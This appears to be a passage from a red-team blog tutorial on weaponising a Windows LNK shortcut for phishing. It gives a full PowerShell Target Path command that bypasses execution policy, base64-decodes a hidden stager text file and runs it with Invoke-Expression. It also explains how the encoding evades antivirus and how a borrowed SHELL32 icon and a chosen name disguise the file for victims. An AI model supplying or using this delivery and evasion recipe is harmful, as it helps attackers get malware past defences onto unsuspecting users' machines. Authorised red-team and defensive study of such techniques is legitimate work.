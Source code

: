 One of the challenges I ran into was that the Target Path attribute in the lnk file has a maximum character limit of 260.It turns out that this limit is imposed by Microsoft for max file name character limits. After all we are abusing an attribute that is just meant to point to another file. These limitations inspired me to store the stager script encoded in a text file. The limit is ultimately bypassed in this scenario because the encoded script can contain as many operations or lines of code as desired. Also, there is still obfuscation when it touches disk as its extracted from the zip file. Not to mention the anti-virus doesn't see any evidence of a script due to its encoding and file extension. Looking at this from a process perspective on the target host a powershell command is seen reading and decoding and invoking a text file. (Suspicous behavior but will most likely bypass triggering script based detections.) 

##### Creating LNK file

While creating the LNK file we will provide a command in the "Target Path" attribute that will use powershell to decode and execute the powershell stager.

First open windows explorer to any directory that you want to create the LNK file in.

**Create LNK file**

(Inside windows explorer) Right click -> New -> Shortcut

**Add command to Target Path**

(Type the location of the item: field) **Paste and modify the following command:**

Note: Feel free to run this command in the same directory as the powershell stager first to ensure its able to properly decode and run your stager script.

``C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoP -ExecutionPolicy Bypass -C "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Get-Content -Path \"$env:USERPROFILE\Downloads\<Zip Folder>\<Base64 encoded stager>.txt\"))) | Invoke-Expression"``

![LNK Target Path](/cybernautblog/redteam_post_2/targetpath_lnk.png)

**Keep in mind that the character limit for the Target Path is 260 characters.** While still being able to perform all the operations necessary to decode and execute the stager script I was able put together a command that is 257 characters long. To save on character space I truncated powershell arguments to the shortest versions possible and used enviroment variables to shorten the file path. Consider this when deciding on the zip folder name and base64 encoded file name.

**Configure the rest of the LNK file:**

Click next -> Insert LNK name (Make it compliment phish scenario) -> Finish

**Change properties of LNK file:**

We are not done yet. Changing properties about the LNK file will help our phishing chances. An icon can be set to make the file appear as if it performs operations or is related to other applications.

(LNK File) Right click -> Properties -> (Start in: field) **Enter this directory:**

``%UserProfile%\Downloads``

(Properties Window) Click Change Icon -> (Look for icons in this file: field) **Paste this file**:

``%SystemRoot%\System32\SHELL32.dll``
